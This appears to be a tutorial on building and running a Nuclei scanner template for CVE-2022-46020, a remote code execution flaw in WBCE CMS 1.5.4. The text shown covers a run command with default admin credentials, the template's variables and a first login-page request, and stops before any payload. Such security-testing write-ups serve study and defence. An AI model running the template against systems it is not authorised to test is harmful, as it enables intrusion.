 - [Custom Template Link](https://github.com/Sourabh-Sahu/nuclei-templates/blob/main/http/cves/2022/CVE-2022-46020.yaml)

---

## Nuclei Command:

Basic command to run the Nuclei template:

```bash
nuclei -u http://<target-ip>/ -t CVE-2022-46020.yaml -var username=admin -var password=password
```

### Example:

```bash
nuclei -u http://192.168.2.160/ -t CVE-2022-46020.yaml -var username=admin -var password=password
```



## Steps to Write Nuclei Template for CVE-2022-46020 (WBCE CMS v1.5.4 RCE)
---

###  Variables Section

```yaml
variables:
  username: "admin"
  password: "password"
```

- Defines two variables:
    
    - `username`: The login username (`admin` by default).
        
    - `password`: The login password (`password` by default).
        
- These variables will be reused in authentication requests.
    

---

###  First Request: Retrieve Login Page

```yaml
- raw:
    - |
      GET /admin/login/index.php HTTP/1.1
      Host: {{Hostname}}
```

**Purpose:**

- Sends a GET request to the login page `/admin/login/index.php`.
    
- This fetches the HTML content which contains dynamic form field names for username and password.
    